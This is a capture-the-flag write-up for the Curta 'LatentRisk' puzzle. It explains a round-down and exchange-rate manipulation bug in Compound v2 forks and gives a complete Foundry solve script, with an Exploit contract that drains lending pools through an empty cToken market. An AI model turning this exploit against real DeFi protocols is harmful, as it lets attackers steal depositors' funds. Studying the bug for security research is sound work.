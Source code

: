 ```yaml
---
author: '0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149'
contributors: ['0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149']
adapted_from: 'https://github.com/chainlight-io/publications/blob/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/LatentRisk/writeup.md'
---
```


## Overview

Numerous projects have suffered exploits due to the round-down vulnerability present in the very early stages of Web 3. This challenge was inspired by an incident that happened in the Compound v2 fork, and it was crafted to inform about potential threats that exist in Compound v2.

<Callout>
  Please note that Compound v2 has known about this for a long time, and they've never encountered
  any problems due to this.
</Callout>

I hope every builder/developer/security researcher acknowledges this latent risk and does not reproduce the same crisis anymore.

## Solving the puzzle

Compound v2 utilizes interest-bearing tokens (ibTokens) named `cToken` to manage lender and borrower positions, which can be managed by `comptroller`, the controller in Compound v2. However, if you accept `cToken` as collateral before any issuance of `cToken`, you can exploit a round-down vulnerability to drain all other underlying assets of `cToken`.

The root cause is that the exchange rate of `cToken` can be manipulated at the attacker's will when no liquidity exists, and a round-down occurs in `redeemUnderlying()`. As a result, an attacker can borrow other underlying assets of `cToken` without collateral.

<Callout>
  If you are interested in learning more, check out [our blog
  post](https://medium.com/chainlight/patch-thursday-security-risks-due-to-exchange-rate-manipulation-of-ibtoken-ebf8e8cb165a).
</Callout>

### Solve script

Check out our solve test below for more details.

```sol fileName="Solve.t.sol"
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Curta.sol";

contract SolveTest is Test {
    Puzzle public curta;
    Challenge public chall;

    CurtaToken public CUSD;
    CurtaToken public CStUSD;
    CurtaToken public CETH;
    CurtaToken public CWETH;

    CErc20Immutable public CCUSD;
    CErc20Immutable public CCStUSD;
    CErc20Immutable public CCETH;
    CErc20Immutable public CCWETH;

    Comptroller public comptroller;

    function setUp() public {
        curta = new Puzzle();
        curta.deploy();
    }

    function testSolve() public {
        chall = curta.factories(curta.generate(address(this)));

        CUSD = chall.CUSD();
        CStUSD = chall.CStUSD();
        CETH = chall.CETH();
        CWETH = chall.CWETH();

        CCUSD = chall.CCUSD();
        CCStUSD = chall.CCStUSD();
        CCETH = chall.CCETH();
        CCWETH = chall.CCWETH();

        comptroller = chall.comptroller();

        Exploit drainCETH1 = new Exploit(address(CCETH), address(CETH), address(chall), 3500 ether);
        CWETH.transfer(address(drainCETH1), CWETH.balanceOf(address(this)));
        drainCETH1.drain();
        CETH.approve(address(CCETH), type(uint256).max);
        CCETH.liquidateBorrow(address(drainCETH1), 1, CTokenInterface(CCWETH));
        CCWETH.redeem(1);

        Exploit drainCETH2 = new Exploit(address(CCETH), address(CETH), address(chall), 3500 ether);
        CWETH.transfer(address(drainCETH2), CWETH.balanceOf(address(this)));
        drainCETH2.drain();
        CCETH.liquidateBorrow(address(drainCETH2), 1, CTokenInterface(CCWETH));
        CCWETH.redeem(1);

        Exploit drainCETH3 = new Exploit(address(CCETH), address(CETH), address(chall), 3000 ether);
        CWETH.transfer(address(drainCETH3), CWETH.balanceOf(address(this)));
        drainCETH3.drain();
        CCETH.liquidateBorrow(address(drainCETH3), 1, CTokenInterface(CCWETH));
        CCWETH.redeem(1);

        Exploit drainCUSD = new Exploit(address(CCUSD), address(CUSD), address(chall), 10000 ether);
        CWETH.transfer(address(drainCUSD), CWETH.balanceOf(address(this)));
        drainCUSD.drain();
        CUSD.approve(address(CCUSD), type(uint256).max);
        CCUSD.liquidateBorrow(address(drainCUSD), 200, CTokenInterface(CCWETH));
        CCWETH.redeem(1);

        CUSD.transfer(address(uint160(curta.generate(address(this)))), CUSD.balanceOf(address(this)));
        CETH.transfer(address(uint160(curta.generate(address(this)))), CETH.balanceOf(address(this)));
        CWETH.transfer(address(uint160(curta.generate(address(this)))), CWETH.balanceOf(address(this)));

        curta.verify(curta.generate(address(this)), uint256(0));
    }
}

contract Exploit {
    CErc20Immutable target;
    CurtaToken targetUnderlying;
    CurtaToken CWETH;
    CErc20Immutable CCWETH;
    Comptroller comptroller;

    Challenge chall;

    uint256 borrowAmount;

    constructor(address _target, address _targetUnderlyng, address _chall, uint256 _borrowAmount) {
        target = CErc20Immutable(_target);
        targetUnderlying = CurtaToken(_targetUnderlyng);
        chall = Challenge(_chall);

        CWETH = chall.CWETH();
        CCWETH = chall.CCWETH();

        comptroller = chall.comptroller();
        borrowAmount = _borrowAmount;
    }

    function drain() external {
        CWETH.approve(address(CCWETH), type(uint256).max);
        CCWETH.mint(2);

        address[] memory cToken = new address[](1);
        cToken[0] = address(CCWETH);
        comptroller.enterMarkets(cToken);

        CWETH.transfer(address(CCWETH), CWETH.balanceOf(address(this)));
        target.borrow(borrowAmount);
        CCWETH.redeemUnderlying(10000 ether - 1);

        targetUnderlying.transfer(msg.sender, targetUnderlying.balanceOf(address(this)));
        CWETH.transfer(msg.sender, CWETH.balanceOf(address(this)));
    }
}
```
